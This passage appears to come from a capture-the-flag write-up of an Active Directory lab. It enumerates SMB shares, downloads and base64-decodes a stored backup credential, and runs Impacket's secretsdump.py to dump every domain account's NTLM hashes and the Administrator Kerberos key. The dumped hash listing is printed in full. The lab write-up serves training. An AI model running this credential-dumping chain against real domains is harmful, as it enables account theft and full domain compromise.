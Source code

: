 Results:
```

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 

```

Let's list the content of `backup`

`smbclient //spookysec.local/backup -I 10.10.171.16 -U svc-admin`
```
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020
8247551 blocks of size 4096. 3586263 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> 
```

Contents of the file: `YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw `
```bash
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d 
backup@spookysec.local:backup2517860  
```

Let's run ==secretsdump.py== on the backup user.
`secretsdump.py spookysec.local/backup:backup2517860'@10.10.171.16 -just-dc`

```
Impacket v0.13.0.dev0+20250516.105908.a63c6522 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:90ba7503a9f2f8044669f6a57e54057c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
```